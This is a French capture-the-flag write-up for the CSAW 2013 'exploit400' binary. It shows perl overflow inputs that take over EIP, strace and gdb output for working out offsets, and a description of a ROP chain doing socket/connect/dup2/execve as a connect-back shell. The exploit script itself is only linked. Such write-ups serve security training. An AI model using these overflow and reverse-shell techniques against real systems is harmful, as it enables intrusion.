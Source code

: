 Title: [CSAW-CTF-2013] Exploit 400
Date: 2013-09-23
Tags: ctf
Author: Tosh
Summary: csaw-ctf exploit400 write-up

Voici un petit write-up pour le challenge exploit400 du CSAW-CTF 2013.

Vous pouvez trouver le binaire ici : [exploit400](http://www.t0x0sh.org/repo/CTF/CSAW_2013/exploit400)

	:::console
	$ file ./miteegashun
	./miteegashun: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=41bbe92f629cbca9784458456d94282b2d2fd9e0, stripped

On a donc un ELF 32 bits statique et strippé.

L'avantage du binaire statique, c'est qu'on va avoir tout un tas de gadgets pour faire du ROP.

On remarque assez vite qu'en envoyant une longue chaine de caractère, on controle facilement EIP :

	:::console
	$ perl -e 'print "A"x500;' | strace -i ./miteegashun
	[b7760424] execve("./miteegashun", ["./miteegashun"], [/* 32 vars */]) = 0
	[b77c1424] uname({sys="Linux", node="rand00m", ...}) = 0
	[b77c1424] brk(0)                       = 0x8ae6000
	[b77c1424] brk(0x8ae6d40)               = 0x8ae6d40
	[080494fb] set_thread_area({entry_number:-1 -> 6, base_addr:0x8ae6840, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0
	[b77c1424] brk(0x8b07d40)               = 0x8b07d40
	[b77c1424] brk(0x8b08000)               = 0x8b08000
	[b77c1424] write(1, "Welcome to this demo of my explo"..., 93Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong
	) = 93
	[b77c1424] fstat64(0, {st_mode=S_IFIFO|0600, st_size=0, ...}) = 0
	[b77c1424] mmap2(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb77c0000
	[b77c1424] read(0, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 4096) = 500
	[b77c1424] read(0, "", 4096)            = 0
	[41414141] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
	[????????] +++ killed by SIGSEGV (core dumped) +++
	Erreur de segmentation (core dumped)

Pour faciliter le débuguage avec GDB, j'ai utilisé un fifo :

	:::console
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x417 . "CCCC"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x43434343  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c 
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x43434343
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x43434343
	0x43434343 in ?? ()
	gdb$ x/20xw $esp
	0x80f0448:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0458:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0468:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0478:      0x41414141      0x41414141      0x41414141      0x41414141
	0x80f0488:      0x41414141      0x41414141      0x41414141      0x41414141

On remarque quelque chose d'étrange : déjà, l'adresse de la stack est en 0x080fXXXX. On imagine donc que le binaire a sa propre stack située dans le segment DATA.

Ensuite, après avoir écrasé EIP, on retournera dans notre buffer lorsqu'on essayera de faire du ROP.

Essayons quelque chose :

	:::console
	$ rm fifo; mkfifo fifo && perl -e 'print "A"x264 . "CCCC" . "B"x(413-264) . "DDDD"' > fifo

	gdb$ r < fifo
	Starting program: /home/tosh/Downloads/./miteegashun < fifo
	Welcome to this demo of my exploit mitigation
	This mitigation is unbeatable, prove me wrong

	Program received signal SIGSEGV, Segmentation fault.
	--------------------------------------------------------------------------[regs]
	  EAX: 0x44444444  EBX: 0x00000000  ECX: 0x00000003  EDX: 0x080F04E1  o d I t s z a P c 
	  ESI: 0x00000000  EDI: 0x08049770  EBP: 0x41414141  ESP: 0x080F0448  EIP: 0x44444444
	  CS: 0073  DS: 007B  ES: 007B  FS: 0000  GS: 0033  SS: 007BError while running hook_stop:
	Cannot access memory at address 0x44444444
	0x44444444 in ?? ()
	gdb$ x/20x $esp
	0x80f0448:      0x43434343      0x42424242      0x42424242      0x42424242
	0x80f0458:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0468:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0478:      0x42424242      0x42424242      0x42424242      0x42424242
	0x80f0488:      0x42424242      0x42424242      0x42424242      0x42424242

Cette fois, on controle toute la chaine d'exécution !

Notre payload ressemblera à ça après calcul des différents offsets :

![Payload](images/exploit400.png)

Il y a une petite difficultée supplémentaire : le file descriptor doit être fermée pour que le payload soit exécuté. On ne peut donc pas réutiliser la socket !
Vu que nous disposons d'une grosse quantité de gadgets, je me suis amusé à faire une ROP chain basé sur l'instruction int 0x80.
Elle exécute à la suite : socket()/connect()/dup2()/execv

Voilà l'exploit : [exploit400.pl](https://github.com/t00sh/ctf/blob/master/csaw_ctf_2013/exploit400.pl)


Par contre, le fichier contenant la clef s'affichait seulement avec ls -l (why ?!).
Un challenge plutôt sympa.
